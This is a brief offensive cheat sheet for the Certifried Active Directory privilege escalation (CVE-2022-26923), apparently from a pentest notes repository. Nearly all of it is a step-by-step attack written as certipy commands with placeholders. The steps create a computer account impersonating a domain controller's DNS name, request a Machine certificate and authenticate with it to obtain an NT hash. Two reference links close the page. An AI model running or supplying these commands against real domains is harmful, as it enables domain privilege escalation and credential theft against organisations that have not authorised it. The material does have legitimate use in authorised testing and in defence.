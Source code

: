 ### Prerequisites
```
WriteACL on computeraccount
Existence of machine certificate template
```

### Create computeraccount and change dNSHostName attribute to domainController.domain:
```
certipy account create '<domain>/<user>:<password>@<fqdnDomainController>' -user '<newComputer>' -dns '<fqdnDomainController>'
```

### Request certificate
```
certipy req '<domain>/<user>:<password>@<fqdnDomainController>' -ca '<certificateAuthority>' -template 'Machine'
```

### Get NT hash
```
$> certipy auth -pfx '<file>.pfx' -username '<user>' -domain '<domain>' -dc-ip <domainController>
```

### References
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

